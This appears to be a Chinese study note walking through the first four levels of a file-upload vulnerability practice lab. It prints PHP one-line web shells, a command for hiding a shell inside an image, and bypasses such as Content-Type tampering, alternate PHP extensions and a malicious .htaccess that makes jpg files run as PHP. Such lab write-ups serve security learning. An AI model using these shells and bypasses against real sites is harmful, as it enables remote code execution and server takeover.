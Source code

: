 # 文件上传学习笔记

## 一句话

一句话

```text
<?php eval($_POST["config"]);?>
```

生成文件马

```text
<?php fputs(fopen('checknet.php','w'),'<?php @eval($_POST[hack]);?>'); ?>
```

合成图片马

```text
copy 图片文件/b + php文件/a 图片文件名
```

`/b`中“b”表示“**二进制文件**”，`/a`中“a"表示**ASCII码文件**。

## pass-1

![image-20201228110213779](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228110213779.png)

点击上传一句话，提示只允许上传三种格式的图片文件，推断为本地客户端验证

方案一：将javascript禁用

![image-20201228110709852](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228110709852.png)

禁用

![image-20201228110728957](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228110728957.png)

然后就可以直接上传

方案二：将文件后缀改为符合要求的后缀名，最后再使用burp抓包修改回php

![image-20201228110557833](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228110557833.png)

上传成功

![image-20201228110626092](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228110626092.png)

## pass-2

尝试上传

![image-20201228111118266](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228111118266.png)

显示文件类型不正确

使用burp抓包修改文件类型

![image-20201228112415282](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228112415282.png)

上传成功

![image-20201228112453790](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228112453790.png)

## pass-3

![image-20201228112543594](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228112543594.png)

提示：不允许上传.asp,.aspx,.php,.jsp后缀文件！

修改文件后缀为Php，尝试大小写绕过

![image-20201228112700275](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228112700275.png)

上传失败

能被解析的文件扩展名列表：

```text
jsp jspx jspf
asp asa cer aspx
php php2 php3 php4 phtml
exe exee
```

最终使用.php3成功上传

![image-20201228113235471](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228113235471.png)

## pass-4

![image-20201228113825877](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201228113825877.png)

提示此文件不许上传，推测为黑名单

尝试绕过失败

**利用Apache漏洞getshell（.htaccess 文件攻击上传shell）**

.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

1.创建htaccess文件，编辑内容为：

SetHandler application/x-httpd-php

他的意思是将该目录下的所有文件解析为php文件来执行

2.如果指定文件名的文件，才能被当做PHP解析，内容为

```text
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

它将该目录下匹配的jpg文件解析为php执行

一般黑名单验证的上传成功几率比较大，白名单什么的并无卵用，先上传这样一个后缀为htaccess的文件，在上传一个.jpg的一句话，这样即使上传的一句话后缀为jpg依然可以连接一句话。


